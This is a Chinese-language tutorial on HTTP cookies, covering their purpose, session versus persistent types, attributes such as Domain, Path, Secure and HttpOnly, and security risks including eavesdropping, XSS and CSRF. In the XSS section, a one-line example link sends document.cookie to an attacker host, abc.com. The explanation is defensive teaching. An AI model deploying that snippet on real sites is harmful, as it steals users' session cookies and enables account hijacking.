



### cookie是什么

[https://www.cnblogs.com/zhuanzhuanfe/p/8010854.html](https://www.cnblogs.com/zhuanzhuanfe/p/8010854.html)

[https://www.cnblogs.com/bq-med/p/8603664.html](https://www.cnblogs.com/bq-med/p/8603664.html)

​	cookie翻译过来是“饼干，甜品”的意思，cookie在网络应用中到处存在，当我们浏览之前访问过的网站，网页中可能会显示：你好，王三少，这就会让我们感觉很亲切，像吃了一块很甜的饼干一样。

​	HTTP协议作为无状态协议，对于HTTP协议而言，无状态同样指每次request请求之前是相互独立的，当前请求并不会记录它的上一次请求信息。那么问题来了，既然无状态，那完成一套完整的业务逻辑，发送多次请求的情况数不胜数，使用http如何将上下文请求进行关联呢？

​	由于http是无状态的协议，一旦客户端和服务器的数据交换完毕，就会断开连接，再次请求，会重新连接，这就说明服务器单从网络连接上是没有办法知道用户身份的。怎么办呢？那就给每次新的用户请求时，给它颁发一个身份证（独一无二）吧，下次访问，必须带上身份证，这样服务器就会知道是谁来访问了，针对不同用户，做出不同的响应。，这就是Cookie的原理。

​	其实cookie是一个很小的文本文件，是浏览器储存在用户的机器上的。Cookie是纯文本，没有可执行代码。储存一些服务器需要的信息，每次请求站点，会发送相应的cookie，这些cookie可以用来辨别用户身份信息等作用。



​	如图所示,用户首次访问服务器，服务器会返回一个独一无二的识别码；id=23451，这样服务器可以用这个码跟踪记录用户的信息，（购物历史，地址信息等）。

​	cookie可以包含任意的信息，不仅仅是id，客户端会记录服务器返回来的Set-Cookie首部中的cookie内容。并将cookie存储在浏览器的cookie数据库中，当用户访问同一站点时，浏览器就会挑选当时该站点颁发的id=XXX的身份证（cookie），并在Cookie请求首部发送过去。

### cookie的类型

​	Cookie总是保存在客户端中，按在客户端中的存储位置，可分为内存Cookie和硬盘Cookie。内存Cookie由浏览器维护，保存在内存中，浏览器关闭后就消失了，其存在时间是短暂的。硬盘Cookie保存在硬盘里，有一个过期时间，除非用户手工清理或到了过期时间，硬盘Cookie不会被删除，其存在时间是长期的。所以，按存在时间，可分为非持久Cookie和持久Cookie。

​	可以按照过期时间分为两类：会话cookie和持久cookie。会话cookie是一种临时cookie，用户退出浏览器，会话Cookie就会被删除了，持久cookie则会储存在硬盘里，保留时间更长，关闭浏览器，重启电脑，它依然存在，通常是持久性的cookie会维护某一个用户周期性访问服务器的配置文件或者登录信息。

> 持久cookie 设置一个特定的过期时间（Expires）或者有效期（Max-Age）

### cookie的属性

#### cookie的属性



一般cookie所具有的属性，包括：

**Domain：**域，表示当前cookie所属于哪个域或子域下面。

对于服务器返回的Set-Cookie中，如果没有指定Domain的值，那么其Domain的值是默认为当前所提交的http的请求所对应的主域名的。比如访问 http://www.example.com，返回一个cookie，没有指名domain值，那么其为值为默认的www.example.com。

**Path：**表示cookie的所属路径。

**Expire time/Max-age：**表示了cookie的有效期。expire的值，是一个时间，过了这个时间，该cookie就失效了。或者是用max-age指定当前cookie是在多长时间之后而失效。如果服务器返回的一个cookie，没有指定其expire time，**那么表明此cookie有效期只是当前的session，即是session cookie，当前session会话结束后，就过期了。对应的，当关闭（浏览器中）该页面的时候，此cookie就应该被浏览器所删除了。**

**secure：**表示该cookie只能用https传输。一般用于包含认证信息的cookie，要求传输此cookie的时候，必须用https传输。

**httponly：**表示此cookie必须用于http或https传输。这意味着，浏览器脚本，比如javascript中，是不允许访问操作此cookie的。

#### cookie的域

产生Cookie的服务器可以向set-Cookie响应首部添加一个Domain属性来控制哪些站点可以看到那个cookie，例如下面：

```
Set-Cookie: name="wang"; domain="m.zhuanzhuan.58.com"
```

如果用户访问的是m.zhuanzhuan.58.com那就会发送cookie: name="wang", 如果用户访问www.aaa.com（非zhuanzhuan.58.com）就不会发送这个Cookie。

#### cookie的路径 Path

Path属性可以为服务器特定文档指定Cookie，这个属性设置的url且带有这个前缀的url路径都是有效的。

例如：m.zhuanzhuan.58.com 和 m.zhaunzhuan.58.com/user/这两个url。 m.zhuanzhuan.58.com 设置cookie

```
Set-cookie: id="123432";domain="m.zhuanzhuan.58.com";
```

m.zhaunzhuan.58.com/user/ 设置cookie：

```
Set-cookie：user="wang", domain="m.zhuanzhuan.58.com"; path=/user/
```

但是访问其他路径m.zhuanzhuan.58.com/other/就会获得

```
cookie: id="123432"
```

如果访问m.zhuanzhuan.58.com/user/就会获得

```
  cookie: id="123432"
  cookie: user="wang"
```

#### secure

设置了属性secure，cookie只有在https协议加密情况下才会发送给服务端。但是这并不是最安全的，由于其固有的不安全性，敏感信息也是不应该通过cookie传输的.

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure;
```

> chrome 52和firefox 52 开始不安全的（HTTP）是无法使用secure的：

### 操作Cookie

通过docuemnt.cookie可以设置和获取Cookie的值

```
document.cookie = "user=wang";
console.log(document.cookie);
```

> 禁止javascript操作cookie（为避免跨域脚本(xss)攻击，通过javascript的document.cookie无法访问带有HttpOnly标记的cookie。）

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2017 07:28:00 GMT; Secure; HttpOnly
```

#### **服务器发送cookie给客户端**

从服务器端，发送cookie给客户端，是对应的Set-Cookie。包括了对应的cookie的名称，值，以及各个属性。

[](javascript:void(0);)

```
Set-Cookie: lu=Rg3vHJZnehYLjVg7qi3bZjzg; Expires=Tue, 15 Jan 2013 21:47:38 GMT; Path=/; Domain=.169it.com; HttpOnly

Set-Cookie: made_write_conn=1295214458; Path=/; Domain=.169it.com

Set-Cookie: reg_fb_gate=deleted; Expires=Thu, 01 Jan 1970 00:00:01 GMT; Path=/; Domain=.169it.com; HttpOnly
```

[](javascript:void(0);)

 

#### 从客户端把cookie发送到服务器

从客户端发送cookie给服务器的时候，是不发送cookie的各个属性的，而只是发送对应的名称和值。

[](javascript:void(0);)

```
GET /spec.html HTTP/1.1  

Host: www.example.org  

Cookie: name=value; name2=value2  

Accept: */*  
```

[](javascript:void(0);)

 

#### 关于修改，设置cookie

除了服务器发送给客户端（浏览器）的时候，通过Set-Cookie，创建或更新对应的cookie之外，还可以通过浏览器内置的一些脚本，比如javascript，去设置对应的cookie，对应实现是操作js中的document.cookie。

### 安全

多数网站使用cookie作为用户会话的唯一标识，因为其他的方法具有限制和漏洞。如果一个网站使用cookies作为会话标识符，攻击者可以通过窃取一套用户的cookies来冒充用户的请求。从服务器的角度，它是没法分辨用户和攻击者的，因为用户和攻击者拥有相同的身份验证。 下面介绍几种cookie盗用和会话劫持的例子：

#### 网络窃听

网络上的流量可以被网络上任何计算机拦截，特别是未加密的开放式WIFI。这种流量包含在普通的未加密的HTTP清求上发送Cookie。在未加密的情况下，攻击者可以读取网络上的其他用户的信息，包含HTTP Cookie的全部内容，以便进行中间的攻击。比如：拦截cookie来冒充用户身份执行恶意任务（银行转账等）。

解决办法：服务器可以设置secure属性的cookie，这样就只能通过https的方式来发送cookies了。

#### 跨站点脚本XSS

使用跨站点脚本技术可以窃取cookie。当网站允许使用javascript操作cookie的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的cookie信息。

例子：

```
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```

当用户点击这个链接的时候，浏览器就会执行onclick里面的代码，结果这个网站用户的cookie信息就会被发送到abc.com攻击者的服务器。攻击者同样可以拿cookie搞事情。

解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。


#### 跨站请求伪造CSRF

例如，SanShao可能正在浏览其他用户XiaoMing发布消息的聊天论坛。假设XiaoMing制作了一个引用ShanShao银行网站的HTML图像元素，例如，

```

```

如果SanShao的银行将其认证信息保存在cookie中，并且cookie尚未过期，(当然是没有其他验证身份的东西)，那么SanShao的浏览器尝试加载该图片将使用他的cookie提交提款表单，从而在未经SanShao批准的情况下授权交易。

解决办法：增加其他信息的校验（手机验证码，或者其他盾牌）。


#### Cookie的缺陷

- cookie会被附加在每个HTTP请求中，所以无形中增加了流量。
- 由于在HTTP请求中的cookie是明文传递的，所以安全性成问题。（除非用HTTPS)
- Cookie的大小限制在4KB左右。对于复杂的存储需求来说是不够用的。

